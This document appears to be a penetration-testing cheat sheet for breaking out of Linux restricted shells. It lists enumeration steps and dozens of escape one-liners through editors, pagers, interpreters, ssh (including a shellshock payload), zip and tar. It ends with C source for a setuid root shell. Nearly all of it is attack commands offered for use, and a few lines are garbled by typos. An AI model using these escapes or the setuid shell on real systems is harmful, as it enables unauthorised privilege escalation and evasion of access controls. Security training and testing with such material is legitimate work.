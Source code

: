 https://vk9-sec.com/linux-restricted-shell-bypass/

# Enumeration
1) Check for available commands like cd/ls/echo etc.
2) Check for operators like >,>>,<,|.
3) Check for available programming languages 
4) Which commands we can run as root (sudo -l)
5) Check for files or commands with SUID perms.
6) Check in what shell you are (echo $SHELL)
7) Check for environmental varibales (run env OR printenv)

# Common Exploitation Techniques
1) If "/" is allowed you can run /bin/sh or /bin/bash. 
2) If you can run cp command you can copy the /bin/sh or /bin/bash into your directory. 
3) From ftp > !/bin/sh or !/bin/bash 
4) From gdb > !/bin/sh or !/bin/bash 
5) From more/man/less > !/bin/sh or !/bin/bash 
6) From vim > !/bin/sh or !/bin/bash 
7) From rvim > :python import os; os.system("/bin/bash ) 
8) From scp > scp -S /path/yourscript x y: 
9) From awk > awk 'BEGIN {system("/bin/sh or /bin/bash")}' 
10) From find > find / -name test -exec /bin/sh or /bin/bash \\;

# Programming Languages Techniques
1) From except > except spawn sh then sh.
2) From python > python -c 'import os; os.system("/bin/sh")'
3) From php > php -a then exec("sh -i"); 
4) From perl > perl -e 'exec "/bin/sh";' 
5) From lua > os.execute('/bin/sh'). 
6) From ruby > exec "/bin/sh"

# Advanced Techniques
1) From ssh > ssh username@IP - t "/bin/sh" or "/bin/bash"
2) From ssh2 > ssh username@IP -t "bash --noprofile"
3) From ssh3 > ssh username@IP -t "() { :; }; /bin/bash" (shellshock)
4) From ssh4 > ssh -o ProxyCommand="sh -c /tmp/yourfile.sh"
5) From git > git help status > you can run it then !/bin/bash
6) From pico > pico -s "/bin/bash" then you can write /bin/bash and then CTRL + T
7) From zip > zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"
8) From tar > tar cf /dev/null testfile --checkpoint=1 --checkpointaction=exec=/bin/bash

**C SETUID SHELL:**
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
int main(int argc, char **argv, char **envp)
{
	setresgid(getegid(), getegid(), getegid());
	setresuid(geteuid(), geteuid(), geteuid());
	
	execve("/bin/sh", argv, envp);
	return 0;

}
```